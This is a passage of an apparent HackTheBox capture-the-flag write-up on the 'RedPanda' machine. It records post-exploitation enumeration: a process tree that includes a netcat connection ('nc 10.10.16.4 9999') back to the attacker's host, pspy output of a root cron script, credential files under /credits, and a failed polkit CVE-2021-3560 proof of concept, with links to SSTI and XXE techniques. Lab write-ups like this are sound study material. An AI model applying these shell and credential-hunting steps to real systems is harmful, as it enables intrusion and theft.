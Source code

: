 ```shell
# syslog       709  0.0  0.2 224344  4820 ?        Ssl  09:02   0:00 /usr/sbin/rsyslogd -n -iNONE
# root         716  0.0  0.2  17124  5892 ?        Ss   09:02   0:00 /lib/systemd/systemd-logind
# root         721  0.0  0.6 395484 13504 ?        Ssl  09:02   0:00 /usr/lib/udisks2/udisksd
# root         759  0.0  0.6 318816 13540 ?        Ssl  09:02   0:00 /usr/sbin/ModemManager
# systemd+     815  0.0  0.6  24564 13204 ?        Ss   09:02   0:01 /lib/systemd/systemd-resolved
# root         859  0.0  0.1   6812  2964 ?        Ss   09:02   0:00 /usr/sbin/cron -f
# root         862  0.0  0.1   8356  3340 ?        S    09:02   0:00  \_ /usr/sbin/CRON -f
# root         864  0.0  0.0   2608   600 ?        Ss   09:02   0:00      \_ /bin/sh -c sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
# root         865  0.0  0.2   9420  4576 ?        S    09:02   0:00          \_ sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
# woodenk      878  2.8 17.2 3176448 349280 ?      Sl   09:02   6:45              \_ java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
# woodenk     9717  0.0  0.0   3332  2020 ?        S    11:51   0:00                  \_ nc 10.10.16.4 9999
# woodenk    10636  0.0  0.1   9220  3732 ?        R    12:56   0:00                  \_ ps auxf
# daemon       863  0.0  0.1   3792  2160 ?        Ss   09:02   0:00 /usr/sbin/atd -f
# root         889  0.0  0.3  12172  7296 ?        Ss   09:02   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
# root         900  0.0  0.0   5828  1872 tty1     Ss+  09:02   0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
# mysql        914  0.6 21.9 1821452 444868 ?      Ssl  09:02   1:33 /usr/sbin/mysqld
pspy
# 2022/07/15 14:24:01 CMD: UID=0    PID=11866  | /bin/sh /root/run_credits.sh
ls -lah /credits
# -rw-r-----  1 root logs  422 Jul 15 09:58 damian_creds.xml
# -rw-r-----  1 root logs  426 Jul 15 09:58 woodenk_creds.xm
```

The credits are readable but written by root.

Also the source code of the application is relatively small:

```shell
ls -lah /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/
# -rw-rw-r-- 1 root root 4.3K Jun 20 13:02 MainController.java
# -rw-rw-r-- 1 root root  779 Feb 21 18:04 PandaSearchApplication.java
# -rw-rw-r-- 1 root root 1.8K Jun 14 14:09 RequestInterceptor.java
ls -lah /opt/credit-score/LogParser/final/src/main/java/com/logparser/
# -rw-rw-r-- 1 root root 3.7K Jun 20 15:43 App.java
```

### Running LinPeas

The CVE-2021-3560 did not work for me, or at least the [POC from secnigma][cve-3560-poc] failed:

```
[x] ERROR: Accounts service and Gnome-Control-Center NOT found!!
```

### The app workflow

The app logs all the requests in `/opt/panda_search/redpanda.log`:


[acunetix]: https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
[author-profile]: https://app.hackthebox.com/users/25507
[cve-3560-poc]: https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation
[hacktricks-ssti]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#thymeleaf-java
[hacktricks-xxe]: https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file
[panda-stats]: images/panda-stats.png
[panga-search]: images/panga-search.png
[spring-boot-template-engine]: https://www.baeldung.com/spring-template-engines#thymeleaf